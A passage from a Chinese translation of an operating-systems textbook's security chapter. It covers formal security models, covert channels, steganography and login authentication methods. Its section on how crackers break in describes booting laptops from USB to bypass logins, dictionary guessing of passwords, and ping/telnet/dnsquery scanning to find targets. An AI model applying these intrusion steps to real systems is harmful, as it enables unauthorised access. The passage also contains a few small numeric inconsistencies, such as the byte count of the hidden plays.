为了总结用军方术语表示的Bell-La Padula模型，一个中尉可以让一个士兵把自己所知道的所有信息复制到将军的文件里而不妨碍安全。现在让我们把同样的模型放在民用领域。设想一家公司的看门人拥有等级为1的安全性，程序员拥有等级为3的安全性，总裁拥有等级为5的安全性。使用Bell-La Padula模型，程序员可以向看门人询问公司的发展规划，然后覆写总裁的有关企业策略的文件。但并不是所有的公司都热衷于这样的模型。
Bell-La Padula模型的问题在于它可以用来保守机密，但不能保证数据的完整性。要保证数据的完整性，我们需要更精确的逆向特性（Biba，1977）。
1)简单完整性原理：在安全等级k上运行的进程只能写同一等级或更低等级的对象（没有往上写）。
2)完整性*规则：在安全等级k上运行的进程只能读同一等级或更高等级的对象（不能向下读）。
这些特性联合在一起确保了程序员可以根据公司总裁的要求更新看门人的信息，但反过来不可以。当然，有些机构想同时拥有Bell-La Padula和Biba特性，但它们之间是矛盾的，所以很难同时满足。
所有的关于形式模型和可证明的安全系统听上去都十分有效，但是它们能否真正工作？简单说来是不可能的。甚至在提供了合适安全模型并可以证明实现方法完全正确的系统里，仍然有可能发生安全泄露。本节将讨论已经严格证明在数学上泄露是不可能的系统中，信息是如何泄露的。这些观点要归功于Lampson（1973）。
Lampson的模型最初是通过单一分时系统阐述的，但在LAN和其他一些多用户系统中也采用了该模型。该模型最简单的方式是包含了三个运行在保护机器上的进程。第一个进程是客户机进程，它让某些工作通过第二个进程也就是服务器进程来完成。客户机进程和服务器进程不完全相互信任。例如，服务器的工作是帮助客户机来填写税单。客户机会担心服务器秘密地记录下它们的财务数据，例如，列出谁赚了多少钱的秘密清单，然后转手倒卖。服务器会担心客户机试图窃取有价值的税务软件。
第三个进程是协作程序，该协作程序正在同服务器合作来窃取客户机的机密数据。协作程序和服务器显然是由同一个人掌握的。这三个进程如图9-14所示。这一例子的目标是设计出一种系统，在该系统内服务器进程不能把从客户机进程合法获得的信息泄露给协作进程。Lampson把这一问题叫做界限问题（confinement problem）。
从系统设计人员的观点来说，设计目标是采取某种方法封闭或限制服务器，使它不能向协作程序传递信息。使用保护矩阵架构可以较为容易地保证服务器不会通过进程间通信的机制写一个使得协作程序可以进行读访问的文件。我们已可以保证服务器不能通过系统的进程间通信机制来与协作程序通信。
遗憾的是，系统中仍存在更为精巧的通信信道。例如，服务器可以尝试如下的二进制位流来通信：要发送1时，进程在固定的时间段内竭尽所能执行计算操作，要发送0时，进程在同样长的时间段内睡眠。
协作程序能够通过仔细地监控响应时间来检测位流。一般而言，当服务器送出0时的响应比送出1时的响应要好一些。这种通信方式叫做隐蔽信道（covert channel），如图9-14b所示。
当然，隐蔽信道同时也是嘈杂的信道，包含了大量的外来信息。但是通过纠错码（如汉明码或者更复杂的代码）可以在这样嘈杂的信道中可靠地传递信息。纠错码的使用使得带宽已经很低的隐蔽信道变得更窄，但仍有可能泄露真实的信息。很明显，没有一种基于对象矩阵和域的保护模式可以防止这种泄露。
调节CPU的使用率不是惟一的隐蔽信道，还可以调制页率（多个页面错误表示1，没有页面错误表示0）。实际上，在一个计时方式里，几乎任何可以降低系统性能的途径都可能是隐蔽信道的候选。如果系统提供了一种锁定文件的方法，那么系统就可以把锁定文件表示为1，解锁文件表示为0。在某些系统里，进程也可能检测到文件处于不能访问的锁定状态。这一隐蔽信道如图9-15所示，图中对服务器和协作程序而言，在某个固定时间内文件的锁定或未锁定都是已知的。在这一实例中，在传送的秘密位流是11010100。
锁定或解锁一个预置的文件，且S不是在一个特别嘈杂的信道里，并不需要十分精确的时序，除非比特率很慢。使用一个双方确认的通信协议可以增强系统的可靠性和性能。这种协议使用了2个文件F1和F2。这两个文件分别被服务器和协作程序锁定以保持两个进程的同步。当服务器锁定或解锁S后，它将F1的状态反置表示送出了一个比特。一旦协作程序读取了该比特，它将F2的状态反置告知服务器可以送出下一个比特了，直到F1被再次反置表示在S中第二个比特已送达。由于这里没有使用时序技术，所以这种协议是完全可靠的，并且可以在繁忙的系统内使它们得以按计划快速地传递信息。也许有人会问：要得到更高的带宽，为什么不在每个比特的传输中都使用文件呢？或者建立一个字节宽的信道，使用从S0到S7共8个信号文件？
获取和释放特定的资源（磁带机、绘图仪等）也可以用来作为信号方式。服务器进程获取资源时表示发送1信号，释放资源时表示发送0信号。在UNIX里，服务器进程创建文件表示1，删除文件表示0；协作程序可以通过系统访问请求来查看文件是否存在。即使协作程序没有使用文件的权限也可以通过系统访问请求来查看。然而很不幸，仍然还存在许多其他的隐蔽信道。
Lampson也提到了把信息泄露给服务器进程所有者（人）的方法。服务器进程可能有资格告诉其所有者，它已经替客户机完成了多少工作，这样可以要求客户机付账。如，假设真正的计算值为100美元，而客户收入是53 000美元，那么服务器就可以报告100.53美元来通知自己的主人。
仅仅找到所有的隐蔽信道已经是非常困难的了，更不用说阻止它们了。实际上，没有什么可行的方法。引入一个可随机产生页面调用错误的进程，或为了减少隐蔽信道的带宽而花费时间来降低系统性能等，都不是什么诱人的好主意。
隐写术
另一类稍微不同的隐蔽信道能够在进程间传递机密信息，即使人为或自动的审查监视着进程间的所有信息并禁止可疑的数据传递。例如，假设一家公司人为地检查所有发自公司职员的电子邮件来确保没有机密泄露给公司外的竞争对手或同谋。雇员是否有办法在审查者的鼻子下面偷带出机密的信息呢？结果是可能的。
让我们用例子来证明。请看图9-16a，这是一张在肯尼亚拍摄的照片，照片上有三只斑马在注视着金合欢树。图9-16b看上去和图9-16a差不多，但是却包含了附加的信息。这些信息是完整而未被删节的五部莎士比亚戏剧：《哈姆雷特》、《李尔王》、《麦克白》、《威尼斯商人》和《裘力斯恺撒》。这些戏剧总共加起来超过700KB的文本。
隐蔽信道是如何工作的呢？原来的彩色图片是1024×768像素的。每个像素包括三个8位数字，分别代表红、绿、蓝三原色的亮度。像素的颜色是通过三原色的线性重叠形成的。编码程序使用每个RGB色度的低位作为隐蔽信道。这样每个像素就有三位的秘密空间存放信息，一个在红色色值里，一个在绿色色值里，一个在蓝色色值里。这种情况下，图片大小将增加1024×768×3位或294 912个字节的空间来存放信息。
五部戏剧和一份简短说明加起来有734 891个字节。这些内容首先被标准的压缩算法压缩到274KB，压缩后的文件加密后被插入到每个色值的低位中。正如我们所看到的（实际上看不到），存放的信息完全是不可见的，在放大的、全彩的照片里也是不可见的。一旦图片文件通过了审查，接收者就剥离低位数据，利用解码和解压缩算法还原出743 891个字节。这种隐藏信息的方法叫做隐写术（steganography，来自于希腊语“隐蔽书写”）。隐写术在那些试图限制公民通信自由的独裁统治国家里不太流行，但在那些非常有言论自由的国家里却十分流行。
在低分辨率下观看这两张黑白照片并不能让人领略隐写术的高超技巧。要更好地理解隐写术的工作原理，作者提供了一个范例，它包含有图9-16b中的图像。这一范例可以在www.cs.vu.nl/～ast/上找到。只要点击covered writing下面以STEGANOGRAPHY DEMO开头的链接即可。页面上会指导用户下载图片和所需的隐写术工具来释放戏剧文本。
另一个隐写术的使用是把隐藏的水印插入网页上的图片中以防止窃取者用在其他的网页上。如果你网页上的图片包含以下秘密信息：“Copyright 2008,General Images Corporation”，你就很难说服法官这是你自己制作的图片。音乐、电影和其他素材都可以通过加入水印来防止窃取。
当然，水印的使用也鼓励人们想办法去除它们。通过下面的方法可以攻击在像素低位嵌入信息的技术：首先把图像顺时针转动1度，然后把它转换为JPEG这样有损耗的图片格式，再逆时针转1度，最后图片被转换为原来的格式（如gif，bmp，tif等）。有损耗的JPEG格式会通过浮点计算来混合处理像素的低位，这样会导致四舍五入的发生，同时在低位增加了噪声信息。不过，放置水印的人们也考虑（或者应该考虑）到了这种情况，所以他们重复地嵌入水印并使用其他的一些方法。这反过来又促使了攻击者寻找更好的手段去除水印。结果，这样的对抗周而复始。
每一个安全的计算机系统一定会要求所有的用户在登录的时候进行身份认证。如果操作系统无法确定当前使用该系统的用户的身份，则系统无法决定哪些文件和资源是该用户可以访问的。表面上看认证似乎是一个微不足道的话题，但它远比大多数人想象的要复杂。
用户认证是我们在1.5.7部分所阐述的“个体重复系统发育”事件之一。早期的主机，如ENIAC并没有操作系统，更不用说去登录了。后续的批处理和分时系统通常有为用户和作业的认证提供登录服务的机制。
早期的小型计算机（如PDP-1和PDP-8）没有登录过程，但是随着UNIX操作系统在PDP-11小型计算机上的广泛使用，又开始使用登录过程。早先的个人计算机（如Apple II和最初的IBM PC）没有登录过程，但是更复杂的个人计算机操作系统，如Linux和Windows Vista需要安全登录（然而有些用户却将登录过程去除）。公司局域网内的机器设置了不能被跳过的登录过程。今天很多人都直接登录到远程计算机上，享受网银服务、网上购物、下载音乐，或进行其他商业活动。所有这些都要求以登录作为认证身份的手段，因此认证再一次成为与安全相关的重要话题。
决定如何认证是十分重要的，接下来的一步是找到一种好方法来实现它。当人们试图登录系统时，大多数用户登录的方法基于下列三个方面考虑：
1)用户已知的信息。
2)用户已有的信息。
3)用户是谁。
有些时候为了达到更高的安全性，需要同时满足上面的两个方面。这些方面导致了不同的认证方案，它们具有不同的复杂性和安全性。我们将依次论述。
那些想在某系统上惹麻烦的人首先必须登录到系统上，这决定了我们要采用哪一种认证方法。通常，我们把这些人叫做“黑客”。但是，在计算机界，“黑客”是对资深程序员的荣誉称呼。他们中也许有一些是欺诈性的，但大多数人并不是。我们在这方面理解错了。考虑到黑客真正的含义，我们应该恢复他们的名声，并把那些企图非法闯入计算机系统的人归结到骇客（Cracker）一类。通常“黑客”被分为并不从事违法活动的“白帽子黑客”和从事破坏活动的“黑帽子黑客”。在人们的经验中，绝大多数“黑客”长时间呆在室内，而且并不戴帽子，所以事实上很难通过他们的帽子来区分“黑客”的好坏。
最广泛使用的认证方式是要求用户输入登录名和口令。口令保护很容易理解，也很容易实施。最简单的实现方法是保存一张包含登录名和口令的列表。登录时，通过查找登录名，得到相应的口令并与输入的口令进行比较。如果匹配，则允许登录，如果不匹配，登录被拒绝。
毫无疑问，在输入口令时，计算机不能显示被输入的字符以防在终端周围的好事之徒看到。在Windows系统中，将每一个输入的口令字符显示成星号。在UNIX系统中，口令被输入时没有任何显示。这两种认证方法是不同的。Windows也许会让健忘的人在输入口令时看看输进了几个字符，但也把口令长度泄露给了“偷听者”。（因为某种原因，英语有一个词汇专门表示偷听的意思，而不是表示偷窥，这里不是嘀咕的意思，这个词在这里不适用。）从安全角度来说，沉默是金。
另一个设计不当的方面出现了严重的安全问题，如9-17所示。在图9-17a中显示了一个成功的登录信息，用户输入的是小写字母，系统输出的是大写字母。在图9-17b中，显示了骇客试图登录到系统A中的失败信息。在图9-17c中，显示了骇客试图登录到系统B中的失败信息。
在图9-17b中，系统只要看到非法的登录名就禁止登录。这样做是一个错误，因为系统让骇客有机会尝试，直到找到合法的登录名。在图9-17c中，无论骇客输入的是合法还是非法的登录名，系统都要求输入口令并没有给出任何反馈。骇客所得到的信息只是登录名和口令的组合是错误的。
大多数笔记本电脑在用户登录的时候要求一个用户名和密码来保护数据，以防止笔记本电脑失窃。然而这种保护在有些时候却收效甚微，任何拿到笔记本的人都可以在计算机启动后迅速敲击DEL、F8或相关按键，并在受保护的操作系统启动前进入BIOS配置程序，在这里计算机的启动顺序可以被改变，使得通过USB端口启动的检测先于对从硬盘启动的检测。计算机持有者此时插入安装有完整操作系统的USB设备，计算机便会从USB中的操作系统启动，而不是本机硬盘上的操作系统启动。计算机一旦启动起来，其原有的硬盘则被挂起（在UNIX操作系统中）或被映射为D盘驱动器（在Windows中）。因此，绝大多数BIOS都允许用户设置密码以控制对BIOS配置程序的修改，在密码的保护下，只有计算机的真正拥有者才可以修改计算机启动顺序。如果读者拥有一台笔记本电脑，那么请先放下本书，先为BIOS设置一个密码。
1.骇客如何闯入
大多数骇客通过远程连接到目标计算机（比如通过Internet）、尝试多次登录（登录名和口令）的方法找到进入系统的渠道。许多人使用自己的名字或名字的某种形式作为登录名。如对Ellen Ann Smith来说，ellen、smith、ellen_smith、el1en-smith、ellen.smith、esmith、easmith等都可能成为备选登录名。黑客凭借一本叫做《4096 Names for Your New Baby》4096个为婴儿准备的名字的书外加一本含有大量名字的电话本，就可以对打算攻击的国家计算机系统编辑出一长串潜在的登录名（如ellen_smith可能是在美国或英国工作的人，但在日本却行不通）。
当然，仅仅猜出登录名是不够的。骇客还需要猜出登录名的口令。这有多难呢？简单得超过你的想象。最经典的例子是Morris和Thompson（1979）在UNIX系统上所做的安全口令尝试。他们编辑了一长串可能的口令：名和姓氏、路名、城市名、字典里中等长度的单词（也包括倒过来拼写的）、许可证号码和许多随机组成的字符串。然后他们把这一名单同系统中的口令文件进行比较，看看有多少被猜中的口令。结果有86%的口令出现在他们的名单里。Klein（1990）也得到过同样类似的结果。
也许有人认为优秀的用户会挑选特别的口令，实际上许多人并没有这么做。一份1997年伦敦金融部门关于口令的调查报告显示，82%的口令可以被轻易猜出。通常被用户采用的口令包括：性别词汇、辱骂语、人名（家庭成员或体育明星）、度假地和办公室常见的物体（Kabay，1997）。这样，骇客不费吹灰之力就可以编辑出一系列潜在的登录名和口令。
网络的普及使得这一情况更加恶化。很多用户并不只拥有一个密码，然而由于记住多个冗长的密码是一件困难的事情，因此大多数用户都趋向于选择简单且强度很弱的密码，并且在多个网站中重复使用他们（Florencio和Herley，2007；Gaw和Felten,2006）。
如果口令很容易被猜出，真的会有什么影响吗？当然有。1998年，《圣何塞信使新闻》报告说，一位在Berkeley的居民Peter Shipley，组装了好几台未被使用的计算机作为军用拨号器（war dialer），拨打了某一个分局内的10 000个电话号码[如（415）770-xxxx]。这些号码是被随机拨出的，以防电话公司禁用措施和跟踪检测。在拨打了大约260万个电话后，他定位了旧金山湾区的20 000台计算机，其中约200台没有任何安全防范。他估计一个别有用心的骇客可以破译其他75%的计算机系统（Denning，1999）。这就回到了侏罗纪时代，计算机实际只需拨打所有260万个电话号码。 [1]
并不只有加利福尼亚州才有这样的骇客，一个澳大利亚骇客曾经做过同样的尝试。在这个骇客闯入的系统中有在沙特阿拉伯的花旗银行的计算机，使他能够获得信用卡号码、信用额度（如500万美元）和交易记录。他的一个同伴也曾闯入过银行计算机系统，盗取了4000个信用卡号（Denning，1999）。如果滥用这样的信息，银行毫无疑问会极力否认自己有错，而声称一定是客户泄露了信息。
互联网是上帝赐给骇客的最好的礼物，它帮助骇客扫清了入侵计算机过程中的绝大多数麻烦，不需要拨打更多的电话号码，军用拨号器可以按下面的方式工作。每一台联入互联网的计算机都有一个（32位的）IP地址（IP Address）。人们通常把这些地址写成十进制点符号，如w.x.y.z，每一个字母代表从0到255的十进制IP地址。骇客可以非常容易地测试拥有这类IP地址的计算机，并通过向shell或控制台中输入命令
ping w.x.y.z
来判断该计算机是否在网上。如果计算机在网上，它将发出回复信息并告知走一个来回需要多少毫秒（虽然某些网站屏蔽了ping命令以防攻击）。黑客很容易写一个程序来自动发射大量的IP地址，当然也可以让军用拨号器来做。如果某台计算机被发现在网上的IP地址为w.x.y.z，骇客就可以通过输入
telnet w.x.y.z
尝试进入系统。
如果联机尝试被允许（也可能被拒绝，因为不是所有的系统管理员欢迎通过Internet来登录），骇客就能够开始从他的名单中尝试登录名和口令。起初可能会失败，但随着几次尝试后，骇客最后总是能进入系统并获取口令文件（通常位于UNIX系统的/etc/passwd下，而且对公众是可读的）。然后，他开始收集关于登录名使用频率等统计信息来优化进一步的搜索。
许多telnet（远程登录）后台程序在骇客尝试了许多不成功的登录后会暂停潜在的TCP连接，以降低骇客的连接速度。骇客这时会同时启动若干个并行线程，一次攻击不同的目标。他们的目标是在一秒中内进行尽可能多的尝试，利用尽可能多的带宽。从他们的观点来说，同时攻击好几台计算机并不是一个严重的缺陷。
除了依次ping计算机的IP地址外，骇客还可以攻击公司、大学或其他政府性组织等目标，如地址为foobar.edu的Foobar大学。骇客通过输入
dnsquery foobar.edu
就可以查到该大学的一长串IP地址，也可以使用nslookup或者dig程序（还可以通过向机器中键入“DNS query”来从网络中查找可以进行免费DNS查询的网站，例如www.dnsstuff.com）。因为许多机构都拥有65 536个连续的IP地址（过去常用的一整个分配单元），所以骇客一旦得到IP地址的前2个字节（dnsquery命令的结果），就可以连续地使用ping命令来看一看哪些地址有回应，并且可以接受telnet连接。完成这一步后，骇客就可以通过我们前面所介绍的猜用户名和口令的方法闯入系统。
毫无疑问，从解析主机名称找到IP地址的前2个字节，到ping所有的地址看哪些有反应，再看这些地址是否支持telnet连接，到最后大量地进行诸如（登录名和口令）对一类的猜测，这些过程都可以很好地自动完成。这一过程会进行大量的尝试，以便闯入，而且如果骇客的计算机性能稳定的话，可以不断地重复运行某些命令直到进入系统。一个拥有高速电缆或DSL连接的骇客可以一整天让计算机自动尝试进入某个系统，而他所做的只是偶尔看一下是否有反馈信息。
除了远程登录服务（telnet service）以外，很多计算机还提供了很多其他可以应用于互联网的服务。每个服务都与65 536个端口（port）中的一个相关联（attach），当骇客找到了一个活动的IP地址，通常情况下他会执行端口扫描（port scan）来确定每个端口允许哪些服务。某些端口可能会提供额外的服务，而骇客则可能利用这些服务侵入系统。
使用telnet攻击或端口扫描很明显比军用拨号器要快（无须拨号时间），而且成本低（无须长途电话费）。但它仅适用于攻击Internet上的计算机和telnet连接。而的确有许多公司（包括几乎所有的大学）都接受telnet连接，以保证雇员在出差时或在不同的办公室（或在家里的学生）进行远程登录。
不仅用户口令如此脆弱，而且超级用户口令有时也十分脆弱。特别是有些刚刚安装好的服务器从不更改出厂时的默认口令。一位Berkeley大学的天文学家Cliff Stoll曾经观测到自己计算机系统的不正常，于是他放置了一个陷阱程序来捕捉入侵者（Stoll，1989）。他观察到了一个如图9-18的入侵过程——某个骇客闯入了Lawrence Berkeley实验室（LBL）并想进入下一个目标。用于网上交换的uucp（UNIX到UNIX的COPY程序）账号拥有超级用户的权力，这样骇客可以闯入系统成为美国能源部计算机的超级用户。幸运的是，LBL并不是设计核武器的实验室，而它在Livermore的姐妹实验室却的确是设计核武器的。人们希望自己的计算机系统更加安全，但当另一家设计核武器的实验室Los Alamos丢失了一个装有2000年机密信息的硬盘以后，大家就没有理由相信系统是安全的了。
一旦骇客闯入了系统并成为超级用户，他就可能安装一个叫做包探测器（packet sniffer）的软件，该软件可以检查所有在网上进出的特定信息包。其中之一是查看哪些人从该系统上远程登录到别的计算机上，特别是作为超级用户登录。这些信息可以被骇客隐藏在某一文件下以便闲暇之余来取。通过这个办法，骇客可以从进入一个安全级别较低的计算机入手，不断地闯入更强安全性能的系统里。
目前越来越多的非法入侵都是一些技术上的生手造成的，他们不过是运行了一些在Internet上找到的脚本程序。这些脚本要么使用我们上面介绍的极端攻击，要么试图找到特定程序的bug。真正的骇客认为他们只是些脚本爱好者（script kiddy）。
通常脚本爱好者没有特定的攻击目标也没有特别想偷窃的信息。他们不过是想看看哪些系统较容易闯入罢了。有些脚本爱好者随便找一个网络攻击，有些干脆随机选取网络地址（IP地址的高位）看看哪些有反应。一旦获得了一个有效IP地址的数据库，就可以依次对计算机进行攻击了。结果是，一台全新的、有安全保卫的军方计算机，刚联网数小时后就受到了来自Internet的攻击，甚至除了系统管理员外还没有多少人知晓这台机器。
2.UNIX口令安全性
有些（老式的）操作系统将口令文件以未加密的形式存放在磁盘里，由一般的系统保护机制进行保护。这样做等于是自找麻烦，因为许多人都可以访问该文件。系统管理员、操作员、维护人员、程序员、管理人员甚至有些秘书都可以轻而易举得到。
在UNIX系统里有一个较好的做法。当用户登录时，登录程序首先询问登录名和口令。输入的口令被即刻“加密”，这是通过将其作为密钥对某段数据加密完成的：运行一个有效的单向函数，运行时将口令作为输入，运行结果作为输出。这一过程并不是真的加密，但人们很容易把它叫做加密。然后登录程序读入加密文件，也就是一系列ASCII代码行，每个登录用户一行，直到找出包含登录名的那一行。如果这行内（被加密后的）的口令与刚刚计算出来的输入口令匹配，就允许登录，否则就拒绝。这种方法的最大好处是任何人（甚至是超级用户）都无法查看任何用户的口令，因为口令文件并不是以未加密方式在系统中任意存放的。
然而，这种方法也可能遭到攻击。骇客可以首先像Morris和Thompson一样建立备选口令的字典并在空暇时间用已知算法加密。这一过程无论有多长都无所谓，因为它们是在进入系统前事先完成的。现在有了口令对（原始口令和经过了加密的口令）就可以展开攻击了。骇客读入口令文件（可公开获取），抽取所有加密过的口令，然后将其与口令字典里的字符串进行比较。每成功一次就获取了登录名和未加密过的口令。一个简单的shell脚本可以自动运行上述操作，这样整个过程可以在不到一秒的时间内完成。这样的脚本一次运行会产生数十个口令。
Morris和Thompson意识到存在这种攻击的可能性，引入了一种几乎使攻击毫无效果的技巧。这一技巧是将每一个口令同一个叫做“盐”（salt）的n位随机数相关联。无论何时只要口令改变，随机数就改变。随机数以未加密的方式存放在口令文件中，这样每个人都可以读。不再只保存加密过的口令，而是先将口令和随机数连接起来然后一同加密。加密后的结果存放进口令文件。如图9-19所示，一个口令文件里有5个用户：Bobbie、Tony、Laura、Mark和Deborah。每一个用户在文件里分别占一行，用逗号分解为3个条目：登录名、盐和（口令+盐）的加密结果。符号e（Dog，4238）表示将Bobbie的口令Dog同他的随机，4238通过加密函数e运算后的结果。这一加密值放在Bobbie条目的第三个域。
现在我们回顾一下骇客非法闯入计算机系统的整个过程：首先建立可能的口令字典，把它们加密，然后存放在经过排序的文件f中，这样任何加密过的口令都能够被轻易找到。假设入侵者怀疑Dog是一个可能的口令，把Dog加密后放进文件f中就不再有效了。骇客不得不加密2n 个字符串，如Dog0000、Dog0001、Dog0002等，并在文件f中输入所有知道的字符串。这种方法增加了2n 倍的f的计算量。在UNIX系统中的该方法里n=12。
对附加的安全功能来说，有些UNIX的现代版使口令不可读但却提供了一个程序可以根据申请查询口令条目，这样做极大地降低了任何攻击者的速度。对口令文件采用“加盐”的方法以及使之不可读（除非间接和缓慢地读），可以抵挡大多数的外部攻击。
3.一次性口令
很多管理员劝解他们的用户一个月换一次口令。但用户常常不把这些忠告放在心上。更换口令更极端的方式是每次登录换一次口令，即使用一次性口令。当用户使用一次性口令时，他们会拿出含有口令列表的本子。用户每一次登录都需要使用列表里的后一个口令。如果入侵者万一发现了口令，对他也没有任何好处，因为下一次登录就要使用新的口令。惟一的建议是用户必须避免丢失口令本。
实际上，使用Leslie Lamport巧妙设计的机制，就不再需要口令本了，该机制让用户在并不安全的网络上使用一次性口令安全登录（Lamport,1981）。Lamport的方法也可以让用户通过家里的PC登录到Internet服务器，即便入侵者可以看到并且复制下所有进出的消息。而且，这种方法无论在服务器和还是用户PC的文件系统中，都不需要放置任何秘密信息。这种方法有时候被称为单向散列链（one-way hash chain）。
上述方法的算法基于单向函数，即y=f(x)。给定x我们很容易计算出y，但是给定y却很难计算出x。输入和输入必须是相同的长度，如256位。
用户选取一个他可以记住的保密口令。该用户还要选择一个整数n，该整数确定了算法所能够生成的一次性口令的数量。如果，考虑n=4，当然实际上所使用的n值要大得多。如果保密口令为s，那么通过单向函数计算n次得到的口令为：
P1 =f(f(f(f(s))))
第2个口令用单向函数运算n-1次：
P2 =f(f(f(s)))
第3个口令对f运算2次，第4个运算1次。总之，Pi-1 =f(Pi )。要注意的地方是，给定任何序列里的口令，我们很容易计算出口令序列里的前一个值，但却不可能计算出后一个值。如，给定P2 很容易计算出P1 ，但不可能计算出P3 。
口令服务器首先由P0 进行初始化，即f(P1 )。这一值连同登录用户名和整数1被存放在口令文件的相应条目里。整数1表示下一个所需的口令是P1 。当用户第一次登录时，他首先把自己的登录名发送到服务器，服务器回复口令文件里的整数值1。用户机器在本地对所输入的s进行运算得到P1 。随后服务器根据P1 计算出f(P1 )，并将结果同口令文件里的(P0 )进行比较。如果符合，登录被允许。这时，整数被增加到2，在口令文件中P1 覆盖了P0 。
下一次登录时，服务器把整数2发送到用户计算机，用户机器计算出P2 。然后服务器计算f(P2 )的值并将其与口令文件中存放的值进行比较。如果两者匹配，就允许登录。这时整数n被增加到3，口令文件中由P2 覆盖P1 。这一机制的特性保证了即使入侵者可以窃取Pi 也无法从Pi 计算出Pi+1 ，而只能计算出Pi-1 ，但Pi-1 已经使用过，现在失效了。当所有n个口令都被用完时，服务器会重新初始化一个密钥。
4.挑战-响应认证
另一种口令机制是让每一个用户提供一长串问题并把它们安全地放在服务器中（如可以用加密形式）。问题是用户自选的并且不用写在纸上。下面是用户可能选择的问题：
1)谁是Marjolein的姐妹？
2)你的小学在哪一条路上？
3)Woroboff女士教什么课？
在登录时，服务器随机提问并验证答案。要使这种方法有效，就要提供尽可能多的问题和答案。
另一种方法叫做挑战-响应。使用这种方法时，在登录为用户时用户选择某一种运算，例如x2 。当用户登录时，服务器发送给用户一个参数，假设是7，在这种情形下，用户就输入49。这种运算方法可以每周、每天后者从早到晚经常变化。
如果用户的终端设备具有十分强大的运算能力，如个人计算机、个人数字助理或手机，那么就可以使用更强大的挑战响应方法。过程如下：用户事先选择密钥k，并手工放置到服务器中。密钥的备份也被安全地存放在用户的计算机里。在登录时，服务器把随机产生的数r发送到用户端，由用户端计算出f(r,k)的值。其中，f是一个公开已知的函数。然后，服务器也做同样的运算看看结果是否一致。这种方法的优点是即使窃听者看到并记录下双方通信的信息，也对他毫无用处。当然，函数f需要足够复杂，以保证k不能被逆推。加密散列函数是不错的选择，r与k的异或值（XOR）作为该函数的一个参数。迄今为止，这样的函数仍然被认为是难以逆推的。
用户认证的第二种方式验证一些用户所拥有的实际物体而不是用户所知道的信息。如金属钥匙就被使用了好几个世纪。现在，人们经常使用磁卡，并把它放入与终端或计算机相连的读卡器中。而且一般情况下，用户不仅要插卡，还要输入口令以保护别人冒用遗失或偷来的磁卡。银行的ATM机（自动取款机）就采用这种方法让客户使用磁卡和口令码（现在大多数国家用4位的PIN代码，这主要是为了减少ATM机安装计算机键盘的费用）通过远程终端（ATM机）登录到银行的主机上。
载有信息的磁卡有两种：磁条卡和芯片卡。磁条卡后面粘附的磁条上可以写入存放140个字节的信息。这些信息可以被终端读出并发送到主机。一般这些信息包括用户口令（如PIN代码）这样终端即便在与银行主机通信断开的情况下也可以校验。通常，用只有银行已知的密钥对口令进行加密。这些卡片每张成本大约在0.1美元到0.5美元之间，价格差异主要取决于卡片前面的全息图像和生产量。在鉴别用户方面，磁条卡有一定的风险。因为读写卡的设备比较便宜并被大量使用着。
而芯片卡在卡片上包含了小型集成电路。这种卡又可以被进一步分为两类：储值卡和智能卡。储值卡包含了一定数量的存贮单元（通常小于1KB），它使用ROM技术保证数据在断电和离开读写设备后也能够保持记忆。不过在卡片上没有CPU，所以被存储的信息只有外部的CPU（读卡器中）才能改变。储值卡被大量生产，使得每张成本可以低于1美元，如电话预付费卡等。当人们打电话时，卡里的电话费被扣除，但实际上并没有发生资金的转移。由于这个原因，这类卡仅仅由一家公司发售并只能用于一种读卡器（如电话机或自动售货机）。当然也可以存储1KB信息的密码并通过读卡机发送到主机验证，但很少有人这么做。
近来拥有更安全特性的是智能卡。智能卡通常使用4MHz 8位CPU,16KB ROM,4 KB ROM，512B可擦写RAM以及9600b/s与读卡器之间的通信速率。这类卡制作越来越小巧，但各种参数却不尽相同。这些参数包括芯片深度（因为嵌入在卡片里）、芯片宽度（当用户弯折卡时芯片不会受损）和成本（通常从1美元到20美元一张不等，取决于CPU功率、存储大小以及是否有密码协处理器）。
智能卡可用来像储值卡一样储值，但却具有更好的安全性和更广泛的用途。用户可以在ATM机上或通过银行提供的特殊读卡器连接到主机取钱。用户在商家把卡插入读卡器后，可以授权卡片进行一定数量金额的转账（输入YES后）。卡片将一段加密过的信息发送到商家，商家稍后将信息流转到银行扣除所付金额的信用。
与信用卡或借记卡相比，智能卡的最大优点是无须直接与银行联机操作。如果读者不相信这个优点，可以尝试下面的实验。在商店里买一块糖果并坚持用信用卡结账。如果商家反对，你就说身边没有现金而且你希望增加飞行里数 [1] 。你将发现商家对你的想法毫无热情（因为使用信用卡的相关成本会使获得的利润相形见绌）。所以，在商店为少量商品付款、付电话费、停车费、使用自动售货机以及其他许多需要使用硬币的场合下，智能卡是十分有用的。在欧洲，智能卡被广泛使用并逐渐推广到其他地区。
智能卡有许多其他的潜在用途（例如，将持卡人的过敏反应以及其他医疗状况以安全的方式编码，供紧急时使用），但本书并不是讲故事的，我们的兴趣在于智能卡如何用于安全登录认证。其基本概念很简单：智能卡非常小，卡片上有可携带的微型计算机与主机进行交谈（称作协议）并验证用户身份。如用户想要在电子商务网站上买东西时，可以把智能卡插入家里与PC相连的读卡器。电子商务网站不仅可以比用口令更安全地通过智能卡验证用户身份，还可以在卡上直接扣除购买商品的金额，减少了网站为用户能够使用联机信用卡进行消费而付出的大量成本（以及风险）。
智能卡可以使用不同的验证机制。一个简单的挑战-响应的例子是这样的：首先服务器向智能卡发出512位随机数，智能卡接着将随机数加上存储在卡上EEPROM中的512位用户口令。然后对所得的和进行平方运算，并且把中间的512位数字发送回服务器，这样服务器就知道了用户的口令并且可以计算出该结果值正确与否。整个过程如图9-20所示。如果窃听者看到了双方的信息，他也无从采用，即便记录下来今后也没有用处，因为下一次登录时，服务器会发出另一个512位的随机数。当然，我们可以使用更加新的算法而不是简单的平方运算。
任何固定的密码通信协议的缺点是容易在传输过程中损坏，从而使智能卡丧失功能。避免这种情况的一个办法是在卡片里使用ROM而不是密码通信协议，如Java解释程序。然后将用Java二进制语言写成的通信协议下载到卡片中，并解释运行。通过这种方法，即使协议被损坏，也能够在全球范围内方便地下载一个新的协议，使得下一次使用智能卡时，该协议处于完好的状态。这种方法的缺点是让本来就速度慢的智能卡更慢了，但是随着技术的发展这种方法将被广泛使用。智能卡的另一个缺点是丢失或被盗的卡片可以让不法分子实施旁道攻击（side-channel attack），例如功率分析攻击。他们中的专家通过观察智能卡在执行加密操作时的电源功率损耗，可以运用适当的设备推算出密钥。也可以让智能卡对特定的密钥进行加密操作，从加密的时间来推算出卡片密钥的有关信息。
第三种方法是对用户的某些物理特征进行验证，并且这些特征很难伪造。这种方法叫做生物识别（Pankanti等人,2000）。如接通在电脑上的指纹或声音识别器可以对用户身份进行校验。
